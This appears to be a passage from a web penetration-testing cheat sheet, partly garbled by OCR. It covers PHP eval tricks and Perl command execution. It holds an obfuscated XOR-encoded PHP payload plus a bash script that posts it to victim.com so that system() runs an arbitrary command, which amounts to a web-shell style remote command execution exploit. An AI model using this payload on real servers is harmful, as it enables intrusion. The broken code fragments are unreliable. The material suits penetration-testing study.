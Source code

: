 ### XOR Shellcode (inside eval)

### XOR Shellcode (eval jatlh)
```bash
#!/bin/bash

if [[ -z $1 ]]; then
echo "USAGE: $0 CMD"
exit
fi

CMD=$1
CODE="\$_='\
```

```php
lt;>/'^'{{{{';\${\$_}[_](\${\$_}[__]);" `$_='
```

```php
lt;>/'^'{{{{'; --> _GET` `${$_}[_](${$_}[__]); --> $_GET[_]($_GET[__])` `So, the function is inside $_GET[_] and the parameter is inside $_GET[__]` http --form POST "http://victim.com/index.php?_=system&__=$CMD" "input=$CODE"
```
### Perl like

#### Description

Perl is a high-level, general-purpose programming language that is often used for web development. It is known for its powerful text processing capabilities and its ability to handle complex data structures. In this section, we will explore some Perl-like tricks that can be useful for web application penetration testing.

#### 1. Command Execution

Perl provides several ways to execute commands from within a script. One common method is to use the backtick operator (`), which allows you to run a command and capture its output. For example:

```perl
my $output = `ls -la`;
print $output;
```

This code will execute the `ls -la` command and print the output to the screen. It is important to note that using the backtick operator can be dangerous if user input is directly passed to the command, as it can lead to command injection vulnerabilities.

#### 2. File Inclusion

Perl allows you to include the contents of one file into another using the `do` function. This can be useful for loading configuration files or other scripts. For example:

```perl
do 'config.pl';
```
